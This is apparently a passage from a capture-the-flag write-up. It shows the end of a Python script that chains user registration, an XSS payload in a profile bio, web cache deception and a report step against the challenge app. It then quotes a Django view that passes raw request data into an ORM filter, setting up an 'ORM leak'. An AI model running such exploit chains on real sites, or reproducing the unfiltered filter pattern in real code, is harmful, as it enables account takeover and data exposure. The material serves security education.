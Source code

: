 ```python
    response = session.post(f"{base_url}/report", data=report_payload)
    response.raise_for_status()


register()
login()
updateSettings()
cachePoison()
reportURL()
```

This script registers a new user, logs in, updates the bio with an XSS payload, performs cache deception, and reports it. On our webhook, we receive a request:

![img](./assets/hk.png)

# ORM Leak

Now that we have XSS on `contract_manager`, let's explore what we can do. We can't steal the cookie as it's HTTPOnly, but let's investigate the functionality accessible by `contract_manager`.

We can observe the following code in the Django API:

```python
class FilteredContractsView(APIView):
    permission_classes = [IsAuthenticated, IsContractManagerOrAdmin]

    def post(self, request, format=None):
        try:
            if request.data.get("all") == True:
                contracts = Contract.objects.all()
            else:
                filtered_data = {key: value for key, value in request.data.items() if key != "all"}
                contracts = Contract.objects.filter(**filtered_data)

            serializer = ContractSerializer(contracts, many=True)
        except Exception as e:
            return Response({"error": str(e)}, status=status.HTTP_400_BAD_REQUEST)

```